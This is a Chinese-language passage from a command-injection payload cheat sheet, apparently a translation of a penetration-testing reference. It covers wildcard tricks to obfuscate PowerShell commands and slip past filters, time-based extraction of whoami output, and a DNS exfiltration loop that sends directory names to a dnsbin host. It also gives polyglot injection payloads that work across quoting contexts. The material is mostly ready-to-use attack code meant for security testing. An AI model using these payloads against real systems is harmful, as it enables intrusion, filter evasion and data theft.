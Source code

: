 ### 使用通配符绕过

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## 数据外泄

### 基于时间的数据外泄

逐个字符提取数据，并根据延迟检测正确的值。

* 正确值：等待5秒

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* 错误值：无延迟

  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```

### 基于DNS的数据外泄

基于[HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin)工具，也托管在[dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. 访问[dnsbin.zhack.ca](http://dnsbin.zhack.ca)
2. 执行简单的'ls'

   ```powershell
   for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
   ```

用于检查基于DNS的数据外泄的在线工具：

* [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
* [app.interactsh.com](https://app.interactsh.com)
* [portswigger.net](https://portswigger.net/burp/documentation/collaborator)

## 多语言命令注入

多语言代码是指在多种编程语言或环境中同时有效且可执行的代码。当我们谈论"多语言命令注入"时，我们指的是可以在多种上下文或环境中执行的注入有效负载。

* 示例1：

  ```powershell
  有效负载: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # 在单引号和双引号内的命令上下文中：
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
